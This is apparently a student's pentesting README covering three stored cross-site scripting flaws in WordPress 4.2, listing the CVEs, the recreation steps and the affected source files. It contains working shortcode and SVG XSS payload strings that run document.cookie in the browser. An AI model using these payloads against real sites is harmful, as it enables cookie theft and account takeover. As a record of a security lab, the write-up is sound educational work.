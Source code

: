 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (CVE 2015-5714)
    - Tested in version: 4.2
    - Fixed in version: 4.3.1
  - [ ] GIF Walkthrough: ![](xss1.gif)
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```xss1[caption width="100" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(document.cookie)'">Click me</a>```
    - Go to the post and place the mouse cursor over the text "Click me"
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.3.1/src/wp-includes/media.php)
    - [Link 2](https://core.trac.wordpress.org/browser/tags/4.3.1/src/wp-includes/shortcodes.php)
    
2. Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (CVE 2015-5622; 2015-5623)
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: ![](xss2.gif)
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```xss2```
    - ``` ```
    - ```<a href="[caption code=">]</a><a title=" onmouseover=alert(document.cookie)  ">Click me</a>```
    - Go to the post and place the mouse cursor over the text "Click me"
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/class-wp-embed.php)
    - [Link 2](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/formatting.php)
    - [Link 3](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/kses.php)
    - [Link 4](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/shortcodes.php)
    
3. Authenticated Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (CVE 2016-1564)
    - Tested in version: 4.2
    - Fixed in version: 4.4.1
  - [ ] GIF Walkthrough: ![](xss3.gif)
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```http://wpdistillery.vm/wp-admin/customize.php?theme=<svg onload=alert(document.cookie)>```
    - Go to the post
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/class-wp-theme.php)
    
## Assets

  - xss1.gif
  - xss2.gif
  - xss3.gif

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## License

    Copyright 2018 Yong Jun Cho

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
